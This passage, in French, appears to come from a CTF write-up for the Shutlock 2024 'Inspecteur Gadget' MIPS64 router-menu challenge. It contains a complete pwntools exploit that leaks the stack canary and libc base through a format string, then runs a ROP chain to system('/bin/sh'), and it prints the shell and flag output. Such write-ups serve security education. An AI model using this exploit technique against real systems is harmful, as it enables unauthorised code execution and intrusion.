      0x555555557000     0x555555d56000   0x7ff000        0x0  rwxp   [stack]
      0x555555d56000     0x555555d57000     0x1000        0x0  rw-p
      0x555555d57000     0x555555d84000    0x2d000        0x0  r-xp   /usr/mips64el-linux-gnuabi64/lib64/ld.so.1
      0x555555d84000     0x555555d96000    0x12000        0x0  ---p
      0x555555d96000     0x555555d97000     0x1000    0x2f000  r--p   /usr/mips64el-linux-gnuabi64/lib64/ld.so.1
      0x555555d97000     0x555555d99000     0x2000    0x30000  rw-p   /usr/mips64el-linux-gnuabi64/lib64/ld.so.1
      0x555555d99000     0x555555d9a000     0x1000        0x0  r-xp
      0x555555d9a000     0x555555d9c000     0x2000        0x0  rw-p
      0x555555dc0000     0x555555faa000   0x1ea000        0x0  r-xp   /usr/mips64el-linux-gnuabi64/lib/libc.so.6
      0x555555faa000     0x555555fba000    0x10000   0x1ea000  ---p   /usr/mips64el-linux-gnuabi64/lib/libc.so.6
      0x555555fba000     0x555555fc0000     0x6000   0x1ea000  r--p   /usr/mips64el-linux-gnuabi64/lib/libc.so.6
      0x555555fc0000     0x555555fc5000     0x5000   0x1f0000  rw-p   /usr/mips64el-linux-gnuabi64/lib/libc.so.6
      0x555555fc5000     0x555555fd2000     0xd000        0x0  rw-p
      0x555555fdd000     0x555555fdf000     0x2000        0x0  rw-p
      0x7f5e6e6b5000     0x7f5e6e6b8000     0x3000        0x0  r-xp   /CTF/Shutlock-2024/Inspecteur_Gadget/vuln
      0x7f5e6e6b8000     0x7f5e6e6c7000     0xf000        0x0  ---p
      0x7f5e6e6c7000     0x7f5e6e6c8000     0x1000     0x2000  rw-p   /CTF/Shutlock-2024/Inspecteur_Gadget/vuln
````

On regarde sur nos addresses leak celles qui peuvent correspondre

````txt
66: b'0x555555d55ef8'
67: b'0x5097c3a08fc64300'
68: b'0x555555fc97c0'
69: b'0x555555e0ad48'
70: b'0x555555d9f010'
71: b'0x555555d9f010'
````

````shell
gdb-peda$ x/5x 0x555555e0ad48
0x555555e0ad48 <__libc_start_main+200>: 0xdf97b0d8      0xdef20000      0xde4200a0      0x10400007
0x555555e0ad58 <__libc_start_main+216>: 0x02803025
````

L'offset 69 correspond à ``__libc_start_main+200`` !

## Exploit 

On a maintenant tout en main pour écrire le script et flag !

L'exploit en python 

````python
from pwn import *
context.update(arch='mips64', os='linux', word_size=64, endian='little')

target = remote("localhost", 1337)

# ADDR gadget

# move $t9, $s1 ; jalr $t9 ; nop

jmp_s1 = 0x00000000000bde04

# move $t9, $s0 ; jalr $t9 ; ld $a0, 0x38($sp)

move_t9_s0_ld_a0_0x38 = 0x00000000000606b8

# ld $ra, 0x18($sp) ; ld $s1, 8($sp) ; ld $s0, ($sp) ; jr $ra ; daddiu $sp, $sp, 0x20

ra_ld_s0_s1_jmp_ra = 0x000000000009a900

elf = context.binary = ELF('vuln')
libc = ELF('libc.so.6')

# Select admin menu
print(target.recvuntil(b"#>"))
buf = b'5'
target.sendline(buf)

# Enter pwd
print(target.recvuntil(b"#>"))
buf = b'admin'
target.sendline(buf)

# Select Change Wifi Key
print(target.recvuntil(b"#>"))
buf = b'2'
target.sendline(buf)

# Enter pwd and overflow the len fields
print(target.recvuntil(b"#>"))
buf = b'1' * 24
target.sendline(buf)

# Quit adm menu
print(target.recvuntil(b"#>"))
buf = b'1'
target.sendline(buf)

# Connect Wifi
print(target.recvuntil(b"#>"))
buf = b'3'
target.sendline(buf)

print(target.recvuntil(b"#>"))
payload = b'%19$p' # leak canary
target.sendline(payload)

print("\n\nPerform LEAK CANARY\n\n")
for i in range(4):
    target.recvline()
res = target.recvline()
res = res.decode().split("0 - QUIT\n")[0]
canary = int(res, 16)
print(f'Canary: {hex(canary)}\n')

# Connect Wifi
print(target.recvuntil(b"#>"))
buf = b'3'
target.sendline(buf)

print(target.recvuntil(b"#>"))

payload = b'%69$p' # __libc_start_main
target.sendline(payload)


print("\n\nPerform LEAK LIBC\n\n")
for i in range(2):
    target.recvline()
res = target.recvline()
res = res.decode().split("0 - QUIT\n")[0]
__libc_start_main = int(res, 16)


libc_base_addr = __libc_start_main - libc.symbols['__libc_start_main'] - 200
print(f'LIBC base: {hex(libc_base_addr)}\n')

# Calculate addr
system_addr = libc_base_addr + libc.symbols['system']

# exit = libc.sym['exit']
bin_sh_addr = libc_base_addr + next(libc.search(b'/bin/sh'))

log.info(f"system at : 0x{system_addr:x}")
log.info(f"/bin.sh at : 0x{bin_sh_addr:x}")

ra_ld_s0_s1_jmp_ra_addr = libc_base_addr + ra_ld_s0_s1_jmp_ra
jmp_s1_addr = libc_base_addr + jmp_s1
move_t9_s0_ld_a0_0x38_addr = libc_base_addr + move_t9_s0_ld_a0_0x38

print(target.recvuntil(b"#>"))
buf = b'3'
target.sendline(buf)

print(target.recvuntil(b"#>"))


# Perform ROP

buf = b'a' * 24
buf += p64(canary)
buf += b'b' *24
buf += p64(ra_ld_s0_s1_jmp_ra_addr)
buf += p64(jmp_s1_addr) # s0
buf += p64(system_addr) # s1
buf += b'b' * 8
buf += p64(move_t9_s0_ld_a0_0x38_addr) # ra
buf += b'c' * 0x38
buf += p64(bin_sh_addr) # a0
target.sendline(buf)

target.interactive()
````

output : 

````shell
└─$ python3 exploit_MIPS.py

[+] Opening connection to localhost on port 1337: Done
[!] Did not find any GOT entries
[*] 'vuln'
    Arch:     mips64-64-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] 'libc.so.6'
    Arch:     mips64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      PIE enabled
    Stack:    Executable
    RWX:      Has RWX segments
b'*** Welcome to Loki routeur ***\n0 - QUIT\n1 - Show Network Interface\n2 - Shutdown or no shutdown Interface\n3 - Connect to WIFI\n4 - Connect to NAS\n5 - Log In as Admin\n#>'
b'Enter Admin password: \n#>'
b'Hello you are logged as Admin\n\x1b[0;31m*** Admin Menu ***\n0 - QUIT\n1 - Quit admin menu\n2 - Change WIFI Key\n#ADM#>'
b'Enter new password\n#ADM#>'
b'New password is : 11111111111111111111111\n\x1b[0;31m*** Admin Menu ***\n0 - QUIT\n1 - Quit admin menu\n2 - Change WIFI Key\n#ADM#>'
b'\x1b[0m0 - QUIT\n1 - Show Network Interface\n2 - Shutdown or no shutdown Interface\n3 - Connect to WIFI\n4 - Connect to NAS\n5 - Log In as Admin\n#>'
b'Interface\n\teth0 is up\n\tl0 is up\n\twlan0 is up\n0 - QUIT\n1 - Show Network Interface\n2 - Shutdown or no shutdown Interface\n3 - Connect to WIFI\n4 - Connect to NAS\n5 - Log In as Admin\n#>'


Perform LEAK CANARY


Canary: 0x64c11c1ad91ebd00

b'1 - Show Network Interface\n2 - Shutdown or no shutdown Interface\n3 - Connect to WIFI\n4 - Connect to NAS\n5 - Log In as Admin\n#>'
b'\nEnter Wifi Password : \n#>'


Perform LEAK LIBC


LIBC base: 0xfff3c40000

[*] system at : 0xfff3cb8418
[*] /bin.sh at : 0xfff3e11f58
b'1 - Show Network Interface\n2 - Shutdown or no shutdown Interface\n3 - Connect to WIFI\n4 - Connect to NAS\n5 - Log In as Admin\n#>'
b'\nEnter Wifi Password : \n#>'
[*] Switching to interactive mode
Trying to connect to Wifi ...
Wrong password
$ ls
run.sh
vuln
$ ls /flag
flag.txt
$ cat /flag/flag.txt
SHLK{M3ss4ge_myst3ri3ux_p4s_s1_myst3r13ux}$ 
````

Le contenu du dernier message est ainsi le flag : `SHLK{M3ss4ge_myst3ri3ux_p4s_s1_myst3r13ux}`
